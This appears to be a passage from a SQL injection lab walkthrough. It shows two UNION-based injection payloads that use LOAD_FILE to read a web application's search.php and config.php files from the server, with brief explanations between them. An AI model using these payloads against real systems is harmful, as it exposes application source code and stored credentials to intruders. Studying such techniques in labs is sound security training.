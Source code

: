 >Retrieve the source code using `load_file`  

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```  

>From above source we see the `include` line state the `config.php` file is imported.

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

![SQLi-load-file](/images/SQLi-load-file.png)  
